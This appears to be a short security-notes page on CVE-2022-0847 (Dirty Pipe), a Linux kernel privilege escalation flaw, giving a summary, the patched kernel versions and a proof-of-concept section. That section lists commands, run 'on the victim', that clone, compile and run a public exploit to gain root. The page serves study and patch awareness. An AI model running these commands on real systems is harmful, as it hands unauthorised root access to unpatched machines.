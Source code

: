 # \[CVE-2022-0847] - dirtypipe

## Brief

{% hint style="info" %}
CVE 2022-0847 is a **privilege escalation** vulnerability discovered by Max Kellerman present in Linux Kernel itself post versions **5.8** which allows **overwriting data in arbitrary read-only files or in simpler words**, lets unprivileged processes inject code in privileged/root process and thus, escalating privilege.
{% endhint %}

## POC

```bash
# on the victim
git clone https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit.git
cd CVE-2022-0847-DirtyPipe-Exploit
./compile.sh
./exploit
```

## Patch status

{% hint style="success" %}
The vulnerability has been fixed in **Linux 5.16.11, 5.15.25, and 5.10.102** with new patches ongoing.
{% endhint %}
